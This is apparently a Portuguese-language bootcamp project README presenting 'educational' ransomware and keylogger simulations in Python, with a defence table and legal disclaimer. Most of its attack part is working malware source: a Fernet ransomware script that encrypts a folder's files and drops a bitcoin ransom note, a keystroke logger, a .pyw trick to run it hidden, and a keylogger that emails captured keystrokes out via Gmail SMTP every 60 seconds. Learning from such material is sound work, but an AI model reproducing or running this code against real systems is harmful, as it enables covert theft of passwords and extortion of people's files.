










# Simulação Educacional de Ransomware e Keylogger em Python

**Autor:** Jordan César · [GitHub](https://github.com/jordancsar17-art) · [LinkedIn](https://www.linkedin.com/in/jordan-c%C3%A9sar-87a829433/)
_Bootcamp Santander de Cibersegurança — DIO_

Este projeto é uma simulação, em ambiente de laboratório controlado, do funcionamento de duas ameaças digitais clássicas — **Ransomware** e **Keylogger** — desenvolvidas em Python com fins exclusivamente educacionais. O objetivo é compreender, na prática, como essas ameaças agem e, principalmente, como detectá-las e se proteger delas no mundo real.

Projeto desenvolvido durante o Bootcamp Santander de Cibersegurança da DIO.

## 🎯 Objetivo

Demonstrar, de forma prática e em ambiente seguro, o comportamento do Ransomware e do Keylogger, reforçando a importância das boas práticas de segurança e das estratégias de defesa.

## 🛠️ Ambiente e Ferramentas

Os testes foram realizados em um ambiente controlado: criei uma pasta de teste isolada, com arquivos gerados apenas para o experimento, garantindo que nenhum arquivo real ou dado de terceiros fosse afetado durante a simulação.

- **Sistema:** Windows 10
- **Editor:** Visual Studio Code (VS Code)
- **Linguagem:** Python 3.15.2

**Bibliotecas utilizadas:**
- `cryptography` (Fernet) — cifragem de arquivos
- `pynput` — captura de teclado
- `smtplib` — envio automático por e-mail

---

## 🔐 Parte 1 — Ransomware Simulado

Esta parte do projeto estuda o comportamento de um ransomware em ambiente controlado, utilizando arquivos de teste criados por mim.

### Preparação do ambiente

Como se trata de um ambiente controlado, criei no desktop uma pasta chamada `malware` e a abri no VS Code. Dentro dela, criei uma pasta `test_files` e adicionei dois arquivos de exemplo (`senhas.txt` e `dados_confidenciais`), preenchidos apenas com conteúdo fictício. Assim, nenhum dado real foi utilizado, e qualquer pessoa pode reproduzir o experimento criando seus próprios arquivos.



### Cifragem dos arquivos

Em seguida, dentro da pasta `malware`, criei o arquivo `ransomware.py`, utilizando a biblioteca `cryptography` (Fernet). Abaixo, o código utilizado:

```python
from cryptography.fernet import Fernet
import os

#1. Gerar uma chave de criptografia e salvar
def gerar_chave():
    chave = Fernet.generate_key()
    with open("chave.key", "wb") as chave_file:
        chave_file.write(chave)

#2. Carregar a chave salva
def carregar_chave():
    return open("chave.key", "rb").read()

#3. Criptografar um único arquivo
def criptografar_arquivo(arquivo, chave):
    f = Fernet (chave)
    with open(arquivo, "rb") as file:
        dados = file.read()
    dados_encriptados = f.encrypt(dados)
    with open(arquivo, "wb") as file:
        file.write(dados_encriptados)

#4. Encontrar arquivos para criptografar
def encontrar_arquivos(diretorio):
    lista = []
    for raiz, _, arquivos in os.walk(diretorio):
        for nome in arquivos:
            caminho = os.path.join(raiz, nome)
            if nome != "ransomware.py" and not nome.endswith(".key"):
                lista.append(caminho)
    return lista

#5. Mensagem de resgate
def criar_mensagem_resgate():
    with open("LEIA ISSO.txt", "w") as f:
        f.write("Seus arquivos foram criptografados!\n")
        f.write("Voce tem 24h para retornar essa mensagem e enviar 1 bitcoin!\n")
        f.write("Depois disso, enviaremos a chave para você recuperar os dados!\n")

#6. Execução principal
def main():
    gerar_chave()
    chave = carregar_chave()
    arquivos = encontrar_arquivos("test_files")
    for arquivo in arquivos:
        criptografar_arquivo(arquivo, chave)
    criar_mensagem_resgate()
    print("Ransomware executado! Arquivos criptografados!")

if __name__=="__main__":
    main()   
```

Ao executá-lo no terminal, o script gerou a chave (`chave.key`), embaralhou o conteúdo dos arquivos de `test_files` e criou o arquivo `LEIA ISSO.txt` com a mensagem de resgate:





Optei por abrir a nota de resgate (`LEIA ISSO.txt`) diretamente no Bloco de Notas do Windows, simulando a forma como uma vítima real a encontraria após o ataque — reforçando o impacto e o realismo da simulação.



### Restauração

Por fim, criei o arquivo `descriptografar.py`, que usa a mesma chave (`chave.key`) para reverter o processo. Abaixo, o código:

```python
from cryptography.fernet import Fernet
import os

def carregar_chave():
    return open("chave.key", "rb").read()

def descriptografar_arquivo(arquivo,chave):
    f = Fernet(chave)
    with open(arquivo, "rb") as file:
        dados = file.read()
        dados_descriptografados = f.decrypt(dados)
    with open(arquivo, "wb") as file:
        file.write(dados_descriptografados)

def encontrar_arquivos(diretorio):
    lista = []
    for raiz, _, arquivos in os.walk(diretorio):
        for nome in arquivos:
            caminho = os.path.join(raiz, nome)
            if nome != "ransomware.py" and not nome.endswith(".key"):
                lista.append(caminho)
    return lista

def main():
    chave = carregar_chave()
    arquivos = encontrar_arquivos("test_files")
    for arquivo in arquivos:
        descriptografar_arquivo(arquivo, chave)
    print("Arquivos restaurados com sucesso")

if __name__ == "__main__":
    main()
```

Ao executá-lo, os arquivos de `test_files` voltaram ao conteúdo original, confirmando que a simulação era segura e reversível:





### 💡 Aprendizado

Mesmo sendo uma simulação simples, esta etapa mostra o quanto o ransomware pode ser devastador no mundo real. Empresas chegam a perder **bilhões de dólares** por ano com esse tipo de ataque — seja em versões sofisticadas ou simples como esta. Justamente por ser algo tão direto, um pequeno descuido pode causar um prejuízo enorme.

Por isso, a principal lição é o valor da prevenção: o **backup** é a defesa mais importante contra o ransomware. Se os arquivos originais estiverem guardados em outro lugar seguro, o "resgate" perde totalmente o poder — a vítima simplesmente restaura seus dados e ignora a ameaça.

### ⚙️ Dificuldade encontrada

Durante os testes, ao executar os scripts no terminal, eles não eram encontrados ou não rodavam como esperado. Após investigar, percebi que o VS Code não salva o arquivo automaticamente — era preciso salvar (`Ctrl+S`) antes de executar. Ativando a opção **Auto Save**, o problema foi resolvido. Foi um aprendizado prático sobre o fluxo de trabalho no editor.

---

## ⌨️ Parte 2 — Keylogger Simulado

Esta parte estuda o comportamento de um keylogger, uma ameaça que registra tudo o que é digitado no teclado. Na prática, isso significa que ele pode capturar **senhas, dados bancários, números de cartão, mensagens privadas e qualquer outra informação sensível** digitada pela vítima — muitas vezes sem que ela perceba. É por isso que essa é uma das ameaças mais perigosas e silenciosas. A captura foi feita apenas na minha própria máquina de teste, em ambiente controlado.

### Modelo 1 — Versão básica (captura em arquivo)

No primeiro modelo, criei o arquivo `keylogger.py`, utilizando a biblioteca `pynput` para capturar as teclas digitadas e salvá-las em um arquivo de texto (`.txt`). Executei o script e, após digitar um texto de teste no Bloco de Notas, confirmei que tudo havia sido registrado corretamente no log.

```python
from pynput import keyboard

IGNORAR = {
    keyboard.Key.shift,
    keyboard.Key.shift_r,
    keyboard.Key.ctrl_l,
    keyboard.Key.ctrl_r,
    keyboard.Key.alt_l,
    keyboard.Key.alt_r,
    keyboard.Key.caps_lock,
    keyboard.Key.cmd
}

def on_press(key):
    try:
        # se for uma tecla "normal" (letra, número, símbolo)
        with open("log.txt", "a", encoding="utf-8") as f:
            f.write(key.char)

    except AttributeError:
        with open("log.txt", "a", encoding="utf-8") as f:
            if key == keyboard.Key.space:
                f.write(" ")
            elif key == keyboard.Key.enter:
                f.write("\n")
            elif key == keyboard.Key.tab:
                f.write("\t")
            elif key == keyboard.Key.backspace:
                f.write(" ")
            elif key == keyboard.Key.esc:
                f.write(" [ESC] ")
            elif key in IGNORAR:
                pass
            else:
                f.write(f"[{key}]")
with keyboard.Listener(on_press=on_press) as listener:
    listener.join() 
```





### Tornando o keylogger furtivo (.pyw)

Para explorar o conceito de furtividade, renomeei o arquivo de `keylogger.py` para `keylogger.pyw` com o comando:

```bash
ren .\keylogger.py .\keylogger.pyw
```

A extensão `.pyw` permite que um script Python seja executado sem exibir a janela de terminal, rodando de forma discreta em segundo plano. Após a renomeação, executei o script com:

```bash
python .\keylogger.pyw
```

Em seguida, fechei o terminal e continuei digitando normalmente — e o keylogger seguiu registrando tudo no arquivo de log, mesmo sem nenhuma janela visível na tela. Isso comprova que a ameaça pode rodar de forma totalmente oculta, em segundo plano, sem que a vítima perceba — reforçando a importância de monitorar os programas em execução no sistema.

### Modelo 2 — Com envio automático por e-mail

No segundo modelo, criei o arquivo `keylogger_email.py`, que une a captura das teclas ao envio automático por e-mail, usando a biblioteca `smtplib`. Combinado com o modo furtivo, esse é o cenário mais realista da ameaça: ela roda escondida e entrega os dados capturados à distância (conceito de exfiltração de dados).

Para que o envio funcionasse de forma segura, segui estes passos:

1. Criei uma **conta de e-mail de teste** no Gmail, exclusiva para o experimento.
2. Ativei a **verificação em duas etapas (2FA)** na conta Google — requisito obrigatório para poder gerar uma senha de app.
3. Acessei a página de [**Senhas de app** do Google](https://myaccount.google.com/apppasswords) e gerei uma **chave de acesso** específica para o Python, diferente da senha real da conta.
4. Utilizei essa chave no script para autenticar o envio do e-mail.

Abaixo, o código utilizado:

```python
from pynput import keyboard
import smtplib
from email.mime.text import MIMEText
from threading import Timer

log = ""

#CONFIGURAÇÕES DE E-MAIL
EMAIL_ORIGEM = "coloque_seu_email_aqui@gmail.com"
EMAIL_DESTINO= "coloque_seu_email_aqui@gmail.com"
SENHA_EMAIL = "coloque_sua_senha_de_app_aqui"

def enviar_email():
    global log
    if log:
       msg = MIMEText(log)
       msg['SUBJECT'] = "Dados capturados pelo keylogger"
       msg['From'] = EMAIL_ORIGEM
       msg['To'] = EMAIL_DESTINO

       try:
          server = smtplib.SMTP("smtp.gmail.com", 587)
          server.starttls()
          server.login(EMAIL_ORIGEM, SENHA_EMAIL)
          server.send_message(msg)
          server.quit()
       except Exception as e:
          print("Erro ao enviar", e)

       log = ""

    # Agendar o envio a cada 60 segundos
    Timer(60, enviar_email).start()

def on_press(key):
    global log
    try:
        log+= key.char
    except AttributeError:
        if key == keyboard.Key.space:
            log +=" "
        elif key == keyboard.Key.enter:
            log += "\n"
        elif keyboard.Key.backspace:
            log+="[<]"
        else:
            pass # Ignorar control, shift, etc...

# Inicia o keylogger e o envio automático
with keyboard.Listener(on_press=on_press) as listener:
    enviar_email()
    listener.join()

```

Ao executar o script no terminal, ele passou a capturar as teclas e a enviar o registro automaticamente por e-mail:



Após digitar um texto de teste, o arquivo de log chegou no e-mail definido, comprovando o funcionamento da exfiltração:



### 💡 Aprendizado

Com esta parte entendi como um keylogger consegue capturar informações sensíveis de forma silenciosa e ainda enviá-las para fora da máquina — e por que a **autenticação em duas etapas (2FA)** é tão importante: mesmo que uma senha seja capturada, o segundo fator impede o acesso. Também percebi o valor de usar senhas de app em vez de expor a senha real, e de monitorar os programas em execução.

---

## 🛡️ Parte 3 — Reflexão sobre Defesa

Entender como essas ameaças funcionam é o que permite construir defesas eficazes. As principais medidas de proteção:

| Ameaça | Como se proteger |
|--------|------------------|
| **Ransomware** | Backups regulares (regra 3-2-1); antivírus atualizado; não abrir anexos suspeitos; menor privilégio; segmentação de rede. |
| **Keylogger** | Antivírus/EDR; autenticação em duas etapas (2FA); teclado virtual; evitar software pirata; monitorar processos e conexões. |
| **Em geral** | Conscientização do usuário; firewall; sandboxing; atualizações do sistema; monitoramento de comportamento anômalo. |

A defesa mais eficaz combina **tecnologia e comportamento**: as ferramentas funcionam melhor quando o usuário também sabe reconhecer os riscos.

---

## ✅ Conclusão

Este projeto demonstrou, na prática e em ambiente controlado, como duas ameaças digitais muito comuns se comportam. Com o Ransomware, vi como arquivos podem ser bloqueados e por que o backup é essencial. Com o Keylogger, entendi como dados podem ser capturados e a importância do 2FA.

Mais do que executar os scripts, o maior aprendizado foi perceber que **conhecer o ataque é o primeiro passo para construir a defesa**.

---

## ⚠️ Aviso Legal

Este projeto foi realizado **exclusivamente em ambiente de laboratório controlado, com fins educacionais**. Reproduzir essas ameaças contra sistemas de terceiros sem autorização é **crime**. O autor não se responsabiliza por qualquer uso indevido.
